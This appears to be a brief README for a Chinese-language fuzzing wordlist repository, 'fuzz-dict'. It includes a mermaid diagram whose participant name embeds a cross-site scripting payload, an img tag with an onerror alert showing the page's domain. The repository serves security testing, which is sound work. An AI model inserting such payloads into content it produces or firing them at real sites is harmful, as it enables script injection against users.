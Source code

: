 # fuzz-dict
用于fuzz测试的字典，收集网络上和自用字典
```mermaid
sequenceDiagram
    participant A as Alice<img src="x" onerror="alert(`xss on ${document.domain}`)">$$\\text{Alice}$$
    A->>John: Hello John, how are you?
    Alice-)John: See you later!
```
